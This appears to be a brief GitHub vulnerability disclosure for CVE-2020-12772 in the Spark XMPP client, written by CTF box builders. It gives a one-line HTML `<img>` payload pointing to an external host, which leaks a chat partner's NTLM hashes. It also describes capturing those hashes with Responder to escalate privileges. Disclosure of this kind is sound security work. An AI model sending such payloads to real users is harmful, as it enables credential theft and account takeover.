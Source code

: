 # CVE-2020-12772

## Description
When @anqr34z and myself, @theart42, were building a CTF box, we came accross an interesting
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](pictures/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL aas the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our prrivileges (depending on the user of course).

![Responder](pictures/responder.png)

## Mitigation
The developer hasa been notified and a fix is underway
